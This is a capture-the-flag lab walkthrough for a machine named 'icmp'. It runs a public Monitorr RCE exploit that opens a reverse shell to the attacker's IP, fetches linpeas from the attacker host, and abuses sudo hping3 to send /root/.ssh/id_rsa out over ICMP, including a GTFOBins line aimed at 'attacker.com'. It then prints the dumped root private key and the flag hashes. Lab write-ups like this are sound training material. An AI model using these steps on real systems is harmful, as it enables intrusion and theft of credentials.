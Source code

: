 Given Target 192.168.172.218

rustscan 192.168.172.218 
	22/tcp open  ssh     syn-ack
	80/tcp open  http    syn-ack

nmap -sC -sV -p22,80  192.168.172.218 -oN icmp.nmap -v


dirbuster

http://192.168.172.218

Monitorr software on home page
v 1.7.6m

searchsploiut found
	searchsploit monitorr                                                                                                                                     10:26:23
	Monitorr 1.7.6m - Authorization Bypass                                                                                               | php/webapps/48981.py
	Monitorr 1.7.6m - Remote Code Execution (Unauthenticated)                                                                            | php/webapps/48980.py
	Shellcodes: No Results
	Papers: No Results


Target url: http://192.168.172.218/mon/

python3 48980.py http://192.168.172.218/mon/ 192.168.45.172 4444 

got em

![[Pasted image 20231104122952.png]]

7539d674bdafee5689432f0f0c52a12d

# Priv Esc

No curl for linpeas non donwnload

download method

python -m http.server 80

```
wget http://192.168.45.172/linpeas.sh
chmod +x linpeas.sh
```

Not normally vuln. 

Strange file in Fox's desktop
![[Pasted image 20231104124120.png]]

seems to be an encrypted password with "da" as the decrypt key

BUHNIJMONIBUVCYTTYVGBUHJNI , da //de seems to be the encrypt key

ssh fox@192.168.172.218

tried it and it seems it's his password

now I'm him

![[Pasted image 20231104124622.png]]

Finally actually have a password

$ sudo -l
	[sudo] password for fox: 
	Matching Defaults entries for fox on icmp:
	    env_reset, mail_badpass,
	    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
	User fox may run the following commands on icmp:
	    (root) /usr/sbin/hping3 --icmp *
	    (root) /usr/bin/killall hping3


ICMP on hping3 is covered by GTFO Bins

![[Pasted image 20231104125054.png]]

The file is continuously sent, adjust the `--count` parameter or kill the sender when done. Receive on the attacker box with:

```
sudo hping3 --icmp --listen xxx --dump
```

```
RHOST=attacker.com
LFILE=file_to_read
sudo hping3 "$RHOST" --icmp --data 500 --sign xxx --file "$LFILE"
```


```
sudo hping3 --icmp 192.168.45.172 --data 500 --sign xxx --file "/root/.ssh/id_rsa"
```

```
sudo hping3 --icmp 192.168.45.172 -d 100 --sign signature --file /root/.ssh/id_rsa 
```

```
sudo hping3 --icmp 192.168.172.218 --listen signature --safe  
```

Not working remotly so trying local



```
sudo hping3 --icmp 127.0.0.1 -d 100 --sign signature --file /root/.ssh/id_rsa 
```

```
sudo hping3 --icmp 127.0.0.1 --listen signature --safe  
```


Private Key is dumping

![[Pasted image 20231104130146.png]]

Private Key Dump
	-----BEGIN OPENSSH PRIVATE KEY-----
	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
	-----END OPENSSH PRIVATE KEY-----



Create id_rsa on kali then login as root with the key

```
nano id_rsa
```
make sure it has good perms. Make sure it's 700 as owner needs full access but no one else can access it

```
chmod 700 id_rsa
```

```
ssh root@192.168.172.218 -i id_rsa
```

Works 

![[Pasted image 20231104130534.png]]

start running the *id* command

![[Pasted image 20231104130635.png]]
dd6733bfcd6747238dab6f314741ef01


Boot2Root